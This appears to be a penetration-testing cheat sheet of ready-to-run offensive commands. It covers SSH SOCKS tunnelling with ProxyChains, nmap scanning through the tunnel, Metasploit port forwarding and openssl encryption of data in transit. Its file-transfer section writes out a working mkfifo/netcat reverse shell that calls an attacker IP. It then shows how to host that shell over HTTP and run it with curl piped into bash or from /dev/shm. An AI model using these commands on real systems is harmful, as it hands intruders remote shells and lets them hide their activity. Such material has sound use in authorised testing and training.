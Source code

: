 <br>

### ProxyChains (and port scanning)
1. Establish SSH connection with dynamic port forwarding
```bash
ssh -D 1337 user@$IP
```

2. Configure ProxyChains for dynamic port forwarding
```bash
echo "socks5 127.0.0.1 1337" | sudo tee -a /etc/proxychains.conf
# Ensure to comment out any socks4 lines in /etc/proxychains.conf
```

3. Perform port scan through the SSH tunnel
```bash
proxychains nmap -sT 127.0.0.1
```

<br>

### Metasploit
```bash
portfwd add -l 1234 -p 21 -r 10.10.10.20 
portfwd list
```

<br>

## Transfer files

### Host and download reverse shell
On attacker machine
```bash attacker host with IP 10.10.10.20
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.10.20 9001 >/tmp/f' > rev.sh
python3 -m http.server 80
```
Download and run reverse shell
```bash Method 1
curl http://10.10.10.20/rev.sh | bash &
```
```bash Method 2
curl http://10.10.10.20/rev.sh -o /dev/shm/rev.sh; chmod +x /dev/shm/rev.sh
/dev/shm/rev.sh
```

<br>

### Encrypt data in transit
```bash Encrypt
openssl enc -aes-256-cbc -pbkdf2 -k strongPass < input.txt > input.txt.enc
```
```bash Decrypt
openssl enc -d -aes-256-cbc -pbkdf2 -k strongPass < input.txt.enc > input.txt
```
